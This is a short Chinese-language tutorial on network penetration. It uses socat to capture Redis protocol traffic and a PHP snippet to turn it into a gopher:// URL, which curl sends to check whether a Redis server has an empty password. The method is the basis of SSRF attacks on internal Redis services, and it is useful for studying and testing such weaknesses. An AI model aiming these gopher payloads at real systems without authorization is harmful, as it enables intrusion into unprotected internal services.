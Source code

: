 ## 运用gopher 和 socat 进行网络渗透

---

socat是一个多功能的网络工具，名字来由是“Socket CAT”，可以看作是netcat的N倍加强版，socat 的官方网站：
[http://www.dest-unreach.org/socat/](http://www.dest-unreach.org/socat/)
网上搜到一个详细的[pdf文档](http://run.qixingyue.com/gopher/socat.pdf)

* 安装办法:

`$ yum install socat -y `

* 映射服务端口，本实例用redis举例，测试的是redis 空密码:

`$ socat -v tcp-listen:6377,fork tcp4:localhost:6379`

* 按照redis的方式访问6377端口，进行set,get 操作，*get到set的值，则认为是空密码*

`$ redis-cli -h localhost -p 6377 `
`$ set a hihackworld`
`$ get a `

* 在之前的socat命令运行中获得输入:

<pre>
*3\r
$3\r
set\r
$1\r
a\r
$11\r
hihackworld\r
*2\r
$3\r
get\r
$1\r
a\r
</pre>

* 运用任何一种熟悉的语言,比如php，对输入进行urlencode:
<pre>
$message = "*3\r
$3\r
set\r
$1\r
a\r
$11\r
hihackworld\r
*2\r
$3\r
get\r
$1\r
a\r
";
$gopherstr = "gopher://localhost:6379/_" . urlencode($message) ;
echo $gopherstr;
</pre>

* 运用curl组合gopher串进行测试:

`$ curl -s <$gopherstr>`

    获取到输出该网络流的输出:

<pre>
+OK
$11
hihackworld
</pre>
